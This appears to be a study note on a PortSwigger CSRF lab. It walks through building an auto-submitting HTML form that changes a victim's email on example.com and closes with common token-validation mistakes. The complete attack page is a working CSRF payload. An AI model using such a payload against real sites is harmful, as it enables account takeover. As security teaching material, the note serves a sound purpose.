

## Crafting a CSRF Attack

Let's delve into the details of crafting a CSRF attack based on the provided transcript chunk.

### Setting Up the Attack

The first step is to identify the endpoint that changes the email address. In this case, the endpoint is a POST request to the email change functionality.

```http
POST /change-email HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

email=test5@test.c
```

### Creating the Malicious Form

To craft the CSRF attack, we need to create a form that will be submitted automatically when the victim visits a page controlled by the attacker.

#### HTML Form

We start by creating an HTML form with hidden fields to hold the necessary parameters.

```html
<form id="csrf-form" method="post" action="https://example.com/change-email">
    <input type="hidden" name="email" value="test5@test.c">
</form>
```

#### JavaScript to Submit the Form

Next, we add a script to automatically submit the form when the page loads.

```html
<script>
document.getElementById('csrf-form').submit();
</script>
```

### Complete HTML Page

Combining these elements, the complete HTML page looks like this:

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Attack</title>
</head>
<body>
    <form id="csrf-form" method="post" action="https://example.com/change-email">
        <input type="hidden" name="email" value="test5@test.c">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

### Explanation of Each Component

- **Form Element**: The `<form>` tag specifies the method (`POST`) and the action URL (`https://example.com/change-email`). The `id` attribute is used to reference the form in the JavaScript.
- **Hidden Input**: The `<input>` tag with `type="hidden"` ensures that the user does not see the form field. The `name` attribute matches the parameter expected by the server, and the `value` attribute contains the new email address.
- **JavaScript**: The script uses `getElementById` to reference the form and calls the `submit()` method to send the form data to the server.

### Sequence Diagram

A sequence diagram can help visualize the interaction between the victim's browser and the server during the CSRF attack.



### Pitfalls and Common Mistakes

- **Missing CSRF Tokens**: One of the most common mistakes is not implementing CSRF tokens. Without tokens, the attack becomes trivial.
- **Incorrect Token Validation**: Even if tokens are implemented, incorrect validation can lead to vulnerabilities. For example, simply checking if a token is present is insufficient; the token must be validated against a known value.
- **Token Leakage**: If tokens are exposed in URLs or forms, they can be intercepted and reused by attackers.

---
<!-- nav -->
[[02-CSRF Token Validation Flaw|CSRF Token Validation Flaw]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/04-Lab 3 CSRF where token validation depends on token being present/00-Overview|Overview]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/04-Lab 3 CSRF where token validation depends on token being present/04-Cross-Site Request Forgery (CSRF)|Cross-Site Request Forgery (CSRF)]]
